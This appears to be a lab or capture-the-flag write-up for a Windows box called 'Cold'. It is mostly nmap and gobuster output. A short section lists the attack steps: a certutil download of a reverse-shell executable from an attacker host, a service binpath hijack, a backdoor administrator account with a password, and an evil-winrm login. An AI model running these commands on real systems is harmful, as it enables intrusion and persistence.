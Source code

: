 ```yaml
---
tags: [Beginner, Video, Windows]
title: Cold
created: '2020-07-03T08:22:32.774Z'
modified: '2020-10-02T17:40:40.732Z'
---
```


# Cold
- IP: `172.31.1.15`
- OS: `Windows`
## General
### Versions
- XAMMP 7.2.30
## Enumeration
### Writeup
certutil -urlcache -split -f http://10.10.0.8/reverse.exe C:\pink\reverse.exe

use exploit/multi/handler

sc config cold binpath="C:\pink\reverse.exe"

net user pink P1nkDracon!an /add
net localgroup administrators pink /add
evil-winrm -i 173.31.1.15 -u pink -p 'P1nkDracon!an'
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.15`
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.30
| http-title: Welcome to XAMPP
|_Requested resource was http://172.31.1.15/dashboard/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.30)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.30
| http-title: Welcome to XAMPP
|_Requested resource was https://172.31.1.15/dashboard/
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5500/tcp  open  http         Jetty 9.3.6.v20151106
| http-methods: 
|_  Supported Methods: GET
|_http-server-header: Jetty(9.3.6.v20151106)
|_http-title: Error 404 
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6095/tcp  open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|_    JNB70*
6096/tcp  open  unknown
7993/tcp  open  unknown
8018/tcp  open  unknown
8500/tcp  open  http         Samsung AllShare httpd
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: 404
8581/tcp  open  unknown
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 403 Forbidden
|     Content-Length: true
|_    Forbidden
20007/tcp open  unknown
20008/tcp open  unknown
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49163/tcp open  msrpc        Microsoft Windows RPC
49192/tcp open  msrpc        Microsoft Windows RPC
49193/tcp open  msrpc        Microsoft Windows RPC
```
</details>

<details>
<summary>Gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/vulns/coldfusion.txt --url http://172.31.1.15:8500/`
```
/CFIDE/administrator (Status: 302)
/CFIDE (Status: 302)
/CFIDE/administrator/aboutcf.cfm (Status: 200)
/CFIDE/administrator/checkfile.cfm (Status: 200)
/CFIDE/administrator/header.cfm (Status: 200)
/CFIDE/administrator/index.cfm (Status: 200)
/CFIDE/administrator/homepage.cfm (Status: 200)
/CFIDE/administrator/enter.cfm (Status: 200)
/CFIDE/administrator/logout.cfm (Status: 200)
/CFIDE/administrator/linkdirect.cfm (Status: 200)
/CFIDE/administrator/login.cfm (Status: 200)
/CFIDE/administrator/navserver.cfm (Status: 200)

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
